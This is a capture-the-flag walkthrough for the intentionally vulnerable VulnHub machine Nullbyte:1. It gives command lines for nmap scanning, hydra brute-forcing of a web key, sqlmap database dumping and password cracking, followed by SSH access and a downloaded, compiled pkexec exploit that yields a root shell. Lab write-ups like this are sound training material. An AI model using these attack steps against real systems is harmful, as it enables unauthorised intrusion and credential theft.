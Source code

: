 

# Nullbyte:1 Walkthrough 

**VulnHub Link:** [Nullbyte:1](https://www.vulnhub.com/entry/nullbyte-1,126/)
**Difficulty:** Easy
**Release Date:** 1 Aug 2015

## 1.Reconnaissance

```bash
nmap -A -O -T4 -P -sV 192.168.100.167
```

## 2.Web Enumeration

dirb http://192.168.100.167

we download image.gif from index.php

```bash
exiftool image.gif
```

we obtain kzMb5nVYJw 

<url>/kzMb5nVYJw ---> key required

```bash
hydra 192.168.100.167 -l user -P /usr/share/wordlists/rockyou.txt http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:F=invalid key"
```

elite found

we intercept the request using burpsuite and copy to file named results.req

```bash
sqlmap -r results.req --dbs --batch
sqlmap -r results.req --dbs --batch -D seth --dump 
```

and then we found user named "ramses"

```bash
echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d
```

we obtain c6d6bd7ebf806f43c76acc3681703b81 and cracked in crackstation ---> "omega"

```bash
ssh ramses@192.168.100.167 -p 777
```

```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Nullbyte%3A1/evil-so.c
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Nullbyte%3A1/exploit.c
```

```bash
find / -perm /4000 2>/dev/null
```

pkexec vuln exists.

```bash
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
./evil.so
./exploit
```


and BINGO..!! Root shell gained ..!
